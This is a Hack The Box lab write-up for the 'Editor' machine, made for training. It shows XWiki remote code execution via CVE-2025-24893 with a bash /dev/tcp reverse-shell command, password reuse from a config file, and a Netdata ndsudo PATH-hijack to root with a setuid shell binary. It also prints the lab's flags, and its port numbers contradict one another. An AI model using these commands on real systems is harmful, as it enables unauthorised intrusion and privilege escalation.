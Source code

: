 # 📝 Write-up: Editor (Hack The Box)

![editor](https://www.hackthebox.com/storage/avatars/7d4a6dfe5b291cbe7b4e13e5f5c4d6c3.png)

**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `editor.htb` — `10.10.11.80` (add to `/etc/hosts`)
**Link:** [Editor @ HTB](https://app.hackthebox.com/machines/Editor)

---

## 🎯 Summary

Editor is an easy Linux machine. Key steps:

* Initial access via **XWiki RCE** (CVE-2025-24893).
* Horizontal escalation: password reuse from configuration.
* Escalation to root via a vulnerable Netdata SUID binary (CVE-2024-32019) using PATH hijacking.

---

## 📋 Table of Contents

1. [Prerequisites / Notes](#-prerequisites--notes)
2. [Reconnaissance](#-reconnaissance)
3. [Enumeration](#-enumeration)
4. [Exploitation — Initial Foothold (XWiki)](#-exploitation--initial-foothold-xwiki)
5. [Privilege Escalation — User (password reuse)](#-privilege-escalation--user-password-reuse)
6. [Privilege Escalation — Root (Netdata ndsudo)](#-privilege-escalation--root-netdata-ndsudo)
7. [Mitigations & Lessons Learned](#-mitigations--lessons-learned)
8. [Replay / Reproduce checklist](#-replay--reproduce-checklist)
9. [References](#-references)

---

## 🔒 Prerequisites / Notes

* This write-up is for the Hack The Box training (CTF/lab) environment — **do not run against production systems**.
* In my examples `editor.htb` resolves to `10.10.11.80`. Add to `/etc/hosts`:

```bash
# on the attacking machine
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```

---

## 🔍 Reconnaissance

First, a full port scan with `nmap`:

```bash
nmap -sC -sV -oA nmap/initial 10.10.11.80
```

Example output (trimmed):

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express server)
8080/tcp open  http    XWiki 14.10.5
```

---

## 🕵️ Enumeration

### 🌐 HTTP — port 80

* Static project documentation page.

### 🌐 HTTP — port 8000 (XWiki)

* XWiki 14.10.5 is running on port `8000` — vulnerable version.

### ⚡ Port 3000 — Node.js/Express

* Found a login interface; default credentials discovered: `admin:admin`.
* Access to the project dashboard.

---

## 🚀 Exploitation — Initial Foothold (CVE-2025-24893, XWiki RCE)

**Goal:** obtain a reverse shell from XWiki.

> Prepare a listener on your machine:

```bash
# on your machine (attacker)
nc -lvnp 4444
```

**Exploit run** (example exploit used — [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893)):

```bash
# on the attacking machine
python3 exploit.py -t http://editor.htb:8000 -c "bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1"
```

**Note:** replace `<YOUR_IP>` with your IP; port `8080` is the XWiki port in my nmap scan. If your nmap shows a different port, use the actual port.

---

## 🔼 Privilege Escalation — User (Password reuse)

After the foothold, the XWiki configuration containing database credentials was found.

**File:** `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`

```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

The same credentials were reused for SSH user `oliver`:

```bash
ssh oliver@editor.htb
# Password: theEd1t0rTeam99
```

**User flag:** `bc2341152c638da4a05b91d91c1df26f`

---

## 🚀 Privilege Escalation — Root (CVE-2024-32019, Netdata `ndsudo`)

Netdata came with a SUID binary `ndsudo` in `/opt/netdata` — analysis showed the binary calls external utilities without reliable absolute paths, allowing PATH-hijacking.

### Why PATH-hijack works

A SUID binary running as root inherits environment variables (including `PATH`) and can execute child programs without absolute paths. If you place a malicious binary with the same name as the expected utility early in `PATH`, root may execute your code.

### Exploitation — steps

1. Create a simple C binary that sets UID to 0 and spawns a shell:

```bash
cat > /tmp/nvme-list.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>
int main(){ setuid(0); system("/bin/bash"); return 0; }
EOF

gcc /tmp/nvme-list.c -o /tmp/nvme-list
chmod +x /tmp/nvme-list
```

2. Prepend `/tmp` to `PATH` and run the vulnerable script:

```bash
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

If `ndsudo` searched for `nvme-list` in `PATH` and found `/tmp/nvme-list`, it will execute it as root — granting a root shell.

**Root flag:** `6d4d6c2368c3210994e624647c93119f`

---

## 🛡 Mitigations & Lessons Learned

* **Patch XWiki** to a version fixing CVE-2025-24893. Disable public access to admin interfaces.
* **Do not store sensitive passwords** in repositories/configs in plaintext; use secrets management.
* **Do not ship unnecessary SUID binaries.** Ensure SUID executables use absolute paths or sanitize `PATH`.
* **Monitor and manage accounts** — unique passwords for service and user accounts.

---

## 📚 References

* CVE-2025-24893 — XWiki RCE (exploit used: [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893))
* CVE-2024-32019 — Netdata ndsudo PATH-hijack (description & PoC)

---
